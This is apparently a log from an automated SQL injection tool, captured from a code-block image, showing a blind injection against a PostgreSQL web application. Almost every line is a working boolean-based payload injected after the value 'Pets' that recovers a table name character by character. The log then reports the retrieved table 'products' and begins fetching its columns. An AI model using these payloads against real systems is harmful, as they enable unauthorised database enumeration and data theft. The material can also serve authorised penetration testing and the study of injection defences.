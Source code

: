 ```bash
[00:46:06] [DEBUG] performed 6 queries in 6.79 seconds
[00:46:06] [PAYLOAD] Pets' AND ASCII(SUBSTRING((SELECT COALESCE(CAST(tablename AS VARCHAR(10000))::text,(CHR(32))) FROM pg_tables WHERE schemaname=(CHR(112)||CHR(117)||CHR(98)||CHR(108)||CHR(105)||CHR(99)) ORDER BY tablename OFFSET 0 LIMIT 1)::text FROM 1 FOR 1))>64 AND 'mEXN'='mEXN
[00:46:07] [PAYLOAD] Pets' AND ASCII(SUBSTRING((SELECT COALESCE(CAST(tablename AS VARCHAR(10000))::text,(CHR(32))) FROM pg_tables WHERE schemaname=(CHR(112)||CHR(117)||CHR(98)||CHR(108)||CHR(105)||CHR(99)) ORDER BY tablename OFFSET 0 LIMIT 1)::text FROM 1 FOR 1))>96 AND 'mEXN'='mEXN
[00:46:08] [PAYLOAD] Pets' AND ASCII(SUBSTRING((SELECT COALESCE(CAST(tablename AS VARCHAR(10000))::text,(CHR(32))) FROM pg_tables WHERE schemaname=(CHR(112)||CHR(117)||CHR(98)||CHR(108)||CHR(105)||CHR(99)) ORDER BY tablename OFFSET 0 LIMIT 1)::text FROM 1 FOR 1))>112 AND 'mEXN'='mEXN
[00:46:09] [PAYLOAD] Pets' AND ASCII(SUBSTRING((SELECT COALESCE(CAST(tablename AS VARCHAR(10000))::text,(CHR(32))) FROM pg_tables WHERE schemaname=(CHR(112)||CHR(117)||CHR(98)||CHR(108)||CHR(105)||CHR(99)) ORDER BY tablename OFFSET 0 LIMIT 1)::text FROM 1 FOR 1))>104 AND 'mEXN'='mEXN
[00:46:10] [PAYLOAD] Pets' AND ASCII(SUBSTRING((SELECT COALESCE(CAST(tablename AS VARCHAR(10000))::text,(CHR(32))) FROM pg_tables WHERE schemaname=(CHR(112)||CHR(117)||CHR(98)||CHR(108)||CHR(105)||CHR(99)) ORDER BY tablename OFFSET 0 LIMIT 1)::text FROM 1 FOR 1))>108 AND 'mEXN'='mEXN
[00:46:11] [PAYLOAD] Pets' AND ASCII(SUBSTRING((SELECT COALESCE(CAST(tablename AS VARCHAR(10000))::text,(CHR(32))) FROM pg_tables WHERE schemaname=(CHR(112)||CHR(117)||CHR(98)||CHR(108)||CHR(105)||CHR(99)) ORDER BY tablename OFFSET 0 LIMIT 1)::text FROM 1 FOR 1))>110 AND 'mEXN'='mEXN
[00:46:12] [PAYLOAD] Pets' AND ASCII(SUBSTRING((SELECT COALESCE(CAST(tablename AS VARCHAR(10000))::text,(CHR(32))) FROM pg_tables WHERE schemaname=(CHR(112)||CHR(117)||CHR(98)||CHR(108)||CHR(105)||CHR(99)) ORDER BY tablename OFFSET 0 LIMIT 1)::text FROM 1 FOR 1))>111 AND 'mEXN'='mEXN
[00:47:25] [PAYLOAD] Pets' AND ASCII(SUBSTRING((SELECT COALESCE(CAST(tablename AS VARCHAR(10000))::text,(CHR(32))) FROM pg_tables WHERE schemaname=(CHR(112)||CHR(117)||CHR(98)||CHR(108)||CHR(105)||CHR(99)) ORDER BY tablename OFFSET 0 LIMIT 1)::text FROM 8 FOR 1))>96 AND 'mEXN'='mEXN
[00:47:28] [PAYLOAD] Pets' AND ASCII(SUBSTRING((SELECT COALESCE(CAST(tablename AS VARCHAR(10000))::text,(CHR(32))) FROM pg_tables WHERE schemaname=(CHR(112)||CHR(117)||CHR(98)||CHR(108)||CHR(105)||CHR(99)) ORDER BY tablename OFFSET 0 LIMIT 1)::text FROM 8 FOR 1))>112 AND 'mEXN'='mEXN
[00:47:31] [PAYLOAD] Pets' AND ASCII(SUBSTRING((SELECT COALESCE(CAST(tablename AS VARCHAR(10000))::text,(CHR(32))) FROM pg_tables WHERE schemaname=(CHR(112)||CHR(117)||CHR(98)||CHR(108)||CHR(105)||CHR(99)) ORDER BY tablename OFFSET 0 LIMIT 1)::text FROM 8 FOR 1))>120 AND 'mEXN'='mEXN
[00:47:32] [PAYLOAD] Pets' AND ASCII(SUBSTRING((SELECT COALESCE(CAST(tablename AS VARCHAR(10000))::text,(CHR(32))) FROM pg_tables WHERE schemaname=(CHR(112)||CHR(117)||CHR(98)||CHR(108)||CHR(105)||CHR(99)) ORDER BY tablename OFFSET 0 LIMIT 1)::text FROM 8 FOR 1))>116 AND 'mEXN'='mEXN
[00:47:33] [PAYLOAD] Pets' AND ASCII(SUBSTRING((SELECT COALESCE(CAST(tablename AS VARCHAR(10000))::text,(CHR(32))) FROM pg_tables WHERE schemaname=(CHR(112)||CHR(117)||CHR(98)||CHR(108)||CHR(105)||CHR(99)) ORDER BY tablename OFFSET 0 LIMIT 1)::text FROM 8 FOR 1))>114 AND 'mEXN'='mEXN
[00:47:35] [PAYLOAD] Pets' AND ASCII(SUBSTRING((SELECT COALESCE(CAST(tablename AS VARCHAR(10000))::text,(CHR(32))) FROM pg_tables WHERE schemaname=(CHR(112)||CHR(117)||CHR(98)||CHR(108)||CHR(105)||CHR(99)) ORDER BY tablename OFFSET 0 LIMIT 1)::text FROM 8 FOR 1))>115 AND 'mEXN'='mEXN
[00:47:37] [PAYLOAD] Pets' AND ASCII(SUBSTRING((SELECT COALESCE(CAST(tablename AS VARCHAR(10000))::text,(CHR(32))) FROM pg_tables WHERE schemaname=(CHR(112)||CHR(117)||CHR(98)||CHR(108)||CHR(105)||CHR(99)) ORDER BY tablename OFFSET 0 LIMIT 1)::text FROM 9 FOR 1))>96 AND 'mEXN'='mEXN
[00:47:45] [PAYLOAD] Pets' AND ASCII(SUBSTRING((SELECT COALESCE(CAST(tablename AS VARCHAR(10000))::text,(CHR(32))) FROM pg_tables WHERE schemaname=(CHR(112)||CHR(117)||CHR(98)||CHR(108)||CHR(105)||CHR(99)) ORDER BY tablename OFFSET 0 LIMIT 1)::text FROM 9 FOR 1))>48 AND 'mEXN'='mEXN
[00:47:46] [PAYLOAD] Pets' AND ASCII(SUBSTRING((SELECT COALESCE(CAST(tablename AS VARCHAR(10000))::text,(CHR(32))) FROM pg_tables WHERE schemaname=(CHR(112)||CHR(117)||CHR(98)||CHR(108)||CHR(105)||CHR(99)) ORDER BY tablename OFFSET 0 LIMIT 1)::text FROM 9 FOR 1))>1 AND 'mEXN'='mEXN
[00:47:47] [INFO] retrieved: products
[00:47:47] [DEBUG] performed 52 queries in 100.70 seconds
Database: public
[1 table]
+----------+
| products |
+----------+

back-end DBMS: PostgreSQL
[00:58:24] [INFO] fetching columns for table 'products' in database 'public'
[00:58:24] [DEBUG] stripping ORDER BY clause from statement because it does not play well with UNION query SQL injection
```
